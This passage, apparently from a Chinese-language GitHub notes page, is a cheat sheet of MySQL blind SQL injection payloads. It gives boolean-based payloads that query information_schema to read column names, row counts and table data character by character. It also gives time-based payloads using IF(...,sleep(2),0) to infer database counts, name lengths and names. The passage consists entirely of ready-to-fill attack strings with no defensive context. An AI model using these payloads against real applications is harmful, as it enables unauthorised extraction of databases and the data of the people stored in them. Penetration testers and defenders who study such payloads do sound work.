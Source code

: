 ##### 判断表中的字段数量

```mysql
AND ((SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名')=1)
```

##### 判断字段长度

```mysql
AND ((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=2)
```

##### 判断字段名

```mysql
AND ((SELECT ASCII(SUBSTR(column_name,第x位,1)) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=ascii码)
```

##### 判断数据数量

```mysql
AND ((SELECT COUNT(字段名) FROM 数据库名.表名)=1)
```

##### 判断数据内容长度

```mysql
AND ((SELECT LENGTH(字段名) FROM 数据库名.表名 limit 第x条数据,1)=4)
```

##### 判断数据内容

```mysql
AND ((SELECT ASCII(SUBSTR(字段名,第x位,1)) FROM 数据库名.表名 limit 第x条数据,1)=ascii码)
```

#### 2.时间盲注

##### 判断数据库数量

```mysql
AND IF((SELECT COUNT(schema_name) FROM information_schema.schemata)=1,sleep(2),0)
```

##### 判断数据库名长度

```mysql
AND IF((SELECT LENGTH(database()))=7,sleep(2),0)
AND IF((SELECT LENGTH(schema_name) FROM information_schema.schemata limit 第x个数据库,1)=7,sleep(2),0)
```

##### 判断数据库名

```mysql
AND IF((SELECT ASCII(SUBSTR(database(),第x位,1))=98),sleep(2),0)
AND IF((SELECT ASCII(SUBSTR(schema_name,第x位,1)) FROM information_schema.schemata limit 第x个数据库,1)=ascii码,sleep(2),0)
```
